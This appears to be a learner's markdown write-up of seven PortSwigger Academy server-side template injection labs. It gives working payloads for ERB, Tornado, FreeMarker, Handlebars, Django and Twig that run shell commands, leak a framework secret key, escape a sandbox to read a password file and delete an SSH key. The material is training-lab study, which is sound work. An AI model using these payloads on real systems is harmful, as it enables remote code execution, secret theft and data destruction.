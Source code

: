 ```
Lab: Basic server-side template injection

PRACTITIONER

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby

```bash
./tplmap.py -u 'https://0a20004404c811b08028c78c00cd0012.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock' --os-cmd 'rm morale.txt'
```

---


```
Lab: Basic server-side template injection (code context)

PRACTITIONER

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
```

- blog-post-author-display=user.first_name}}{{7*7
- Comment a blog post and see Peter49
- Search for Tornado SSTI 

Payload : 
> blog-post-author-display=user.first_name}}{{os.system('rm%20morale.txt')

'os' is not defined

So, add : {% import os %}

Final payload : 

> blog-post-author-display=user.first_name}}%7B%25%20import%20os%20%25%7D{{os.system('rm%20morale.txt')

---
```
Lab: Server-side template injection using documentation

PRACTITIONER
LAB Not solved

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```
1. Detect : Edit template fonctionnality
2. Identify : 

Payload :
${product.getClass()}
> class lab.actions.templateengines.
FreeMarkerProduct
3. Exploit :

Read : https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java

Payload :
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) 

Final payload : 
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}

GG ! :)

---
```
Lab: Server-side template injection in an unknown language with a documented exploit

PRACTITIONER

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```


> message=Unfortunately%20this%20product%20is%20out%20of%20stock%7b%7b7%2a7%7d%7d

We get an error message. 
Ask chatGPT what technologie is used here : 

> Based on the error message provided, it seems that the technology of templating being used in this context is Handlebars. 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs

Final payload url encoded : 
```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm%20morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

---

```
Lab: Server-side template injection with information disclosure via user-supplied objects

PRACTITIONER

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

Payload : {{product.getClass()}}

Get an error message, so asking chatGPT what technologie is used here/ 

> Based on the traceback provided, it appears that the technology of templating used here is Django's template language

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#leaking-apps-secret-key

{{ messages.storages.0.signer.key }}

Don't work so lets check Debug info

{% debug %}

Final payload :
{{ settings.SECRET_KEY }}



---

```
Lab: Server-side template injection in a sandboxed environment

EXPERT

This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

Payload : ${product.getClass()}

class lab.actions.templateengines.FreeMarkerProduct

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java

Final payload from hacktricks :
```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

> 99 109 112 121 97 116 121 112 106 115 51 97 118 97 49 107 53 57 121 98


Cyber chef recipe :

/CyberChef/#recipe=From_Decimal('Space',false)

> Mdp : cmpyatypjs3ava1k59yb

GG :)

---
```
Lab: Server-side template injection with a custom exploit

EXPERT

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id_rsa from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
Warning

As with many high-severity vulnerabilities, experimenting with server-side template injection can be dangerous. If you're not careful when invoking methods, it is possible to damage your instance of the lab, which could make it unsolvable. If this happens, you will need to wait 20 minutes until your lab session resets.

```

1. Comment a post
2. Use polyglot payload for detecting the templating agent : `${{<%[%'"}}%\.`
3. Reload the commented post
4. See that the templating agent is Twig 
5. Exploit ! BOOM

When I tried to upload a webshell (because why not) got this stack trace :
```
<pre>PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/php in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/dice.png', 'application/php')
#1 {main}
  thrown in /home/carlos/User.php on line 28
</pre>
```

So you can use user.setAvatar method with the SSTI

Crafted payload : 
}}{{user.setAvatar('/home/carlos/.ssh/id_rsa', 'image/png')

Get the content inside id_rsa : 
> Nothing to see here :)

... Mhmmmm

Let's check whats inside user.php

Crafted payload : 
%7D%7D%7B%7Buser.setAvatar('/home/carlos/User.php',%20'image/png')

```
 public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }
```
I forget that we need to delete the id_rsa file

So use this : 

%7D%7D%7B%7Buser.setAvatar('home/carlos/.ssh/id_rsa',%20'image/png')%7B%7Buser.gdprDelete()%7D%7D

Okay, this delete the previous User.php file .... let wait 20 min until the lab reset xD

> %7D%7D%7B%7Buser.setAvatar('/home/carlos/.ssh/id_rsa',%20'image/png')

then :

> %7D%7D%7B%7Buser.gdprDelete()

GG !

---
